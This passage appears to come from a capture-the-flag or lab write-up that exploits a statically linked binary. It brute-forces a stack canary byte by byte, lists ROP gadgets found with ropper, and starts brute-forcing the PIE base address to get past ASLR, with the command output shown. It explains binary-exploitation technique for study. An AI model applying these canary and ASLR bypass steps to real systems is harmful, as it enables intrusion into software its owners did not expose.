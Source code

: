 ```python
    # Behold... our canary
    print("canary: {}".format(hex(u64(canary))))
```

After a few minutes, we have our canary value:

```bash
0026
00267f
00267f7f
00267f7f0d
00267f7f0df4
00267f7f0df490
00267f7f0df4903e
canary: 0x3e90f40d7f7f2600
```

### Identifying the .text base address

Now that we have a way to bypass the canary, we can look at overwriting the return address to force our own execution path.  If you recall, we have a non-executable stack, so ROP techniques look like a good way to go right now.  Using a tool such as [ropper](https://github.com/sashs/Ropper), we can see that we have quite a large pool of potential ROP gadgets (21435 gadets to be exact - thanks, static linking!):

```bash
$ ropper -f powershell_lp --nocolor > rops
$ tail rops
0x0000000000017beb: xor rdx, qword ptr [0x30]; mov rdi, qword ptr [rax + 0x20]; call rdx;
0x0000000000019a34: xor rdx, qword ptr fs:[0x28]; jne 0x19a47; add rsp, 0xd8; ret;
0x000000000005656e: xor rdx, qword ptr fs:[0x28]; jne 0x56589; add rsp, 0x28; ret;
0x000000000005749d: xor rdx, qword ptr fs:[0x28]; jne 0x574b7; add rsp, 0x28; ret;
0x000000000009cf54: xor rdx, qword ptr fs:[0x28]; jne 0x9cf64; add rsp, 0x38; ret;
0x000000000009d037: xor rdx, qword ptr fs:[0x28]; jne 0x9d054; add rsp, 0x38; ret;
0x0000000000017afe: xor rdx, qword ptr fs:[0x30]; call rdx;
0x0000000000017bea: xor rdx, qword ptr fs:[0x30]; mov rdi, qword ptr [rax + 0x20]; call rdx;

21435 gadgets found
```

An initial glance, however, reminds us that this binary has PIE, RELRO, and ASLR to contend with, so instead of exact addresses for the ROP gadgets, we are only getting offsets from the base address (which we don't know - yet).  We can take another bruteforce approach (`256 * 8`) to get a good guestimate of what our base address is by reusing our same process for the canary and focusing instead on the return address.  In theory, we should be able to see a SEGFAULT (signal 11) exit status if we don't get a good address, and a status 0 otherwise.

I won't rehash the code again, as it is almost the same as above, but the full exploit is available for review [here](exploit.py).

Running our code again yields now the Canary AND a potential good return address:

```bash
0026
00267f
00267f7f
00267f7f0d
00267f7f0df4
00267f7f0df480
oh no!  # <--- SEE? This is why we add the failure checking!
00267f7f0df490
00267f7f0df4903e
canary: 0x3e90f40d7f7f2600
75
751c
oh no! # < oof - again!
75e9
```